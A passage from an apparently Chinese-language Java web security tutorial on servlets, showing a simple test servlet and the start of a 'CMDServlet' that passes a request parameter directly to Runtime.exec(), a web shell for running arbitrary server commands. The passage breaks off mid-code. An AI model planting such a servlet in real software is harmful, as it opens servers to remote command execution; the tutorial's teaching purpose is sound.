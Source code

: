 ```java
      out.write(("Hello....<br/>Request Method:" + request.getMethod() + "<br/>Class:" + this.getClass()).getBytes());
   }

}
```

浏览器请求[http://localhost:8080/TestServlet/](http://localhost:8080/TestServlet/):

![image-20200910201502285](../../images/image-20200910201502285.png)

**CMDServlet示例代码：**

```java
package com.anbai.sec.server.test.servlet;

import org.javaweb.utils.IOUtils;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.OutputStream;

@WebServlet(name = "CMDServlet", urlPatterns = "/CMD/")
public class CMDServlet extends HttpServlet {

   @Override
   public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
      doPost(request, response);
   }

   @Override
   public void doPost(HttpServletRequest request, HttpServletResponse response) throws IOException {
      String cmd   = request.getParameter("cmd");
      byte[] bytes = IOUtils.toByteArray(Runtime.getRuntime().exec(cmd).getInputStream());
```